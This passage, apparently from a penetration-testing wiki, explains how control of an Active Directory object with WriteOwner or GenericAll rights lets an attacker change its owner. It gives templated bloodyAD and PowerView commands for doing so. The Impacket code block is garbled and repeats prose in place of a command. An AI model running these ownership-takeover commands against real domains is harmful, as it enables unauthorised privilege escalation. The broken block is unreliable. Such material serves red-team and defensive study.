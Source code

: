 This abuse can be carried out when controlling an object that has `WriteOwner or GenericAll` over any object.

=== "UNIX-like"
    From UNIX-like systems, this can be done with Impacket's owneredit.py (Python).
    ```bash
    From UNIX-like systems, this can be done with Impacket's owneredit.py (Python).
    ```
    Or it can be done with bloodyAD
    ```bash
    bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set owner $TargetObject $ControlledPrincipal
    ```
=== "Windows"
    From Windows systems, this can be achieved with Set-DomainObjectOwner (PowerView module).
    ```bash
    Set-DomainObjectOwner -Identity 'target_object' -OwnerIdentity 'controlled_principal'
    ```